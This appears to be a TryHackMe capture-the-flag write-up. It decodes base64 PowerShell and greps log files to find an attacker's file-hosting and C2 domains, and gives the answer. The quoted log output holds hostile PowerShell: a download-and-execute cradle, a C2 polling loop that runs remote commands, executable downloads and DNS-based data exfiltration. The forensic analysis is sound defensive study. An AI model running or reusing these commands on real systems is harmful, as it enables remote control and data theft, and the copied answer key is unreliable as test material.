 > ### What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. [a.domain.com](http://a.domain.com),[b.domain.com](http://b.domain.com))

We have an encoded string, we have to decode it!

Head over to [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/) and get going. We can paste the **base64** encoded string into the Input and use the **From Base64** Recipe, along with **Remove null bytes** to produce a cleaner result.

This is what we get:

```bash
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
```

Take note of the URL: `files.bpakcaging.xyz`

Let’s have a look at the **powershell.json** file now. With the instructions given we are going to use **jq.**

We can run:

```bash
cat powershell.json | jq '.ScriptBlockText'
```

Which gives us a good start, we can snoop around for domains and URL’s in there.

With the information we already have I decided to narrow this down to having a look specifically for related domains using **.xyz**.

```bash
cat powershell.json | jq '.ScriptBlockText' | grep .xyz
```

Same command but we can **grep** out **.xyz**.

We get something that looks like this:

```bash
ubuntu@tryhackme:~/Desktop/artefacts$ cat powershell.json | jq '.ScriptBlockText' | grep .xyz
"$s='cdn.bpakcaging.xyz:8080';$i='8cce49b0-b86459bb-27fe2489';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/8cce49b0 -Headers @{\"X-38d2-8f49\"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/b86459bb -Headers @{\"X-38d2-8f49\"=$i}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/27fe2489 -Method POST -Headers @{\"X-38d2-8f49\"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}\n"
"iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')"
"iwr http://files.bpakcaging.xyz/sb.exe -outfile sb.exe;pwd"
"iwr http://files.bpakcaging.xyz/sq3.exe -outfile sq3.exe;pwd"
"$split = $hex -split '(\\S{50})'; ForEach ($line in $split) { nslookup -q=A \"$line.bpakcaging.xyz\" $destination;} echo \"Done\";;pwd"
```

We can see the `files.bpakcaging.xyz` subdomain as well as `cdn.bpakcaging.xyz`.

Suggesting one server for **files** and another for **content delivery network.**

**Answer: cdn.bpakcaging.xyz,files.bpakcaging.xyz**

---
